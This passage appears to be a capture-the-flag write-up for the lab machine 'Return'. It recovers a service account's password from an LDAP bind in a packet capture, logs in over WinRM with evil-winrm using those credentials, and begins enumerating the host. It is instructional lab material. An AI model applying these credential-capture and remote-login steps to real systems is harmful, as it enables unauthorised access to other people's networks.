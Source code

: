 If we open the PCAP file, we find an LDAP bind request corresponding to the IP
and the port used for the authentication.

![Wireshark LDAP bind request](wireshark-ldap-bind-request.png)

Therefore, the credentials are `return\svc-printer`:`1edFg43012!!`!

## Foothold (WinRM)

Let's try these credentials to connect to Return over WinRM.

```sh
❯ evil-winrm -i "10.10.11.108" -u "return\svc-printer" -p '1edFg43012!!'
```

```
<SNIP>
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

It worked. Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `return\svc-printer`
(obviously).

### Architecture

What is Return's architecture?

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version
